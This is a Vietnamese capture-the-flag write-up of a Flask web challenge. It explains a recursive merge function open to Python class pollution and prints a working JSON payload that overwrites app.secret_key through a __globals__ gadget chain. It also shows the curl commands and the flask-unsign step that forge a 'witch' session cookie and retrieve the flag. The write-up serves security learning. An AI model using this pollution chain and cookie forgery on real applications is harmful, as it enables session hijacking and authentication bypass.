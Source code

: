 ## Hansel and gretel

Chall này là một chall về Flask app, ta cùng đi sơ qua các chức năng.

Để lấy flag, ta cần `session['user']=witch`:
```python
@app.route("/flag")
def flag():
    if session.get("user") != "witch":
        return render_template("template.html", status=403, message="You are not the witch.")
    return render_template("template.html", status=200, message=os.environ["FLAG"])
```

Khi truy cập vào trang web, server sẽ lấy bulletins từ `/load_bulletins` rồi render ra.
```python
@app.route("/")
def index():
    session["user"] = "hansel & gretel"
    bulletins = requests.post("http://localhost:3000/load_bulletins").json()
    return render_template("index.html", bulletins=bulletins)

@app.route("/load_bulletins", methods=["POST"])
def load_bulletins():
    return bulletin_board.load(), 200, {"Content-Type": "application/json"}
```

Ta có thể cập nhật bulletin ở `/save_bulletins`:
```python
@app.route("/save_bulletins", methods=["POST"])
def save_bulletins():
    if not request.is_json:
        raise Exception("Only accept JSON.")
    bulletin_board.save(request.data)
    return {"message": "Bulletins saved."}, 200, {"Content-Type": "application/json"}
```

Tiếp theo là chức năng save của bài này:

```python
def set_(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                set_(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            set_(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class Board():
    def __init__(self): pass

    @property
    def pinned_content(self):
        return [{
            "title": "Our First Adventure!", 
            "text": "Today we went to the forest and you can't believe what we've got to! It's a house made out of gingerbread, cake and candy! How sweet it is!"
        }]
    
    current_content = []

    def save(self, data):
        data_ = json.loads(data)
        if "new_content" not in data_:
            raise Exception("There is nothing to save.")
        if not isinstance(data_["new_content"], list) and not len(data_["new_content"]) > 0 and not all([isinstance(x, dict) for x in data_["new_content"]]):
            raise Exception("\"new_content\" should be a non-empty list of JSON-like objects.")
        if not all(["title" in x and "text" in x for x in data_["new_content"]]):
            raise Exception("Please check your bulletin format")
        set_(data_, self)

    def load(self):
        res = self.pinned_content
        if isinstance(self.current_content, list) and len(self.current_content) > 0 and all(["title" in x and "text" in x for x in self.current_content]):
            res.extend(self.current_content)
        if hasattr(self, "new_content") and self.new_content is not None:
            new_content = getattr(self, "new_content")
            self.current_content.extend(new_content)
            res.extend(new_content)
            self.new_content = None
        return res[::-1]
```


`bulletin_board` là object của lớp `Board`, hàm save của nó yêu cầu kiểu dữ liệu có những trường như sau thì mới cho save:
```json
{
  "new_content": [
    {
      "title": "xxx",
      "text": "yyy"
    }
  ]
}
```

Sau khi đã thõa mãn, nó gọi đến hàm `set_` để lưu giá trị. Nhìn vào hàm `_set`, ta có thể liên tương đến hàm `merge` hai object trong javascript, quá quen thuộc với dạng prototype pollution.
```js
function merge(a, b) {
  for (var att in b) {
    if (typeof a[att] === "object" && typeof b[att] === "object") {
      merge(a[att], b[att]);
    } else {
      a[att] = b[att];
    }
  }
  return a;
}
```

Đề bài đang nhắm đến `prototype pollution` trong python. Rõ hơn về lỗ hổng này ở [đây](https://blog.abdulrah33m.com/prototype-pollution-in-python/)

Để đọc được flag, ta cần đổi giá trị của `session['user']` thành `witch`. Trong Flask, session hoạt động tương tự như JWT, ta có thể thay đổi được session nếu chúng ta kiểm soát được giá trị của SECRET_KEY.

Thay vì sử dụng `app.config['SECRET_KEY'] = 'your_secret_key_here'` thì ta cũng có thể set `secret_key` bằng câu lệnh `app.secret_key = 'your_secret_key_here'`.

Gadget dẫn đến `app.secret` key như sau:
```
__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
```

Payload:
```json
{
  "new_content": [
    {
      "title": "test",
      "text": "test"
    }
  ],
  "__class__": {
    "__init__": {
      "__globals__": {
        "__loader__": {
          "__init__": {
            "__globals__": {
              "sys": {
                "modules": {
                  "__main__": {
                    "app": {
                      "secret_key": "hehe"
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

```sh
curl -X POST -H "Content-Type: application/json" -H "Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoibWVtb3J5IGxvc3QifQ.Fw-zd72pKScg-Zagzz_zl04doz84NgG2uPjr3yAcYu3DJ0Kp5rLaprBRKyQwdJ1232A791WQSaByIAwawzQsZ4XO8aVg6xmnnXEpHXU0Yb88jmNdP6jcjnOxyQ9zTpyQsnoy_raqYWhELCizXn-Y9QwKDXYk2WT1UMdWtLuZ4DYC043Y5glKlaVFTLhpilIPh5h3NlCRxdR9KSnPUO0ZK-8Bahw3onBTsjBgcK7exJLp374dGrdeijaM1jcCRzhb4SGpHHvT_JGYvTfQJW4P7JQM3u8dC4eK06bYwl3QGIlWqxGxc53IBGMzfkDUcEYYg5HCplDnJe-o128RxokUBQ; session=eyJ1c2VyIjoiaGFuc2VsICYgZ3JldGVsIn0.ZONgXA.DIju7ZSr4TrjnrOdnczIHbxl-lw" http://chall-us.pwnable.hk:30009/save_bulletins -d '{"new_content":[{"title":"test","text":"test"}],"__class__":{"__init__":{"__globals__":{"__loader__":{"__init__":{"__globals__":{"sys":{"modules":{"__main__":{"app":{"secret_key":"hehe"}}}}}}}}}}}'
{"message":"Bulletins saved."}
```

Bây giờ ta chỉ cần generate lại flask session là xong:

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask

```sh
pwn@DESKTOP-AC6UABE:pts/0->/home/pwn (0)
>echo "eyJ1c2VyIjoiaGFuc2VsICYgZ3JldGVsIn0.ZONgXA.DIju7ZSr4TrjnrOdnczIHbxl-lw"|base64 --decode
{"user":"hansel & gretel"}base64: invalid input
>.local/bin/flask-unsign --sign --cookie '{"user":"witch"}' --secret 'hehe'
eyJ1c2VyIjoid2l0Y2gifQ.ZOOr-g.dHLUviIRBRcUcVvwYFsjteIhsMg
> curl -H "Cookie: session=eyJ1c2VyIjoid2l0Y2gifQ.ZOOr-g.dHLUviIRBRcUcVvwYFsjteIhsMg" http://chall-us.pwnable.hk:30009/flag
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Hansel & Gretel</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="container box-border flex flex-col items-center justify-center h-screen px-4 mx-auto text-center text-white bg-zinc-800">
    <h1 class="inline-block text-left w-fit">
        <span class="my-4 text-xl font-semibold">HTTP 200</span><br>
        <span class="my-4 text-4xl font-bold">b6actf{p0llute_the_w0r1d_4_sweet_sweet_c00k1es}</span><br>
    </h1>
</body>
</html>
```
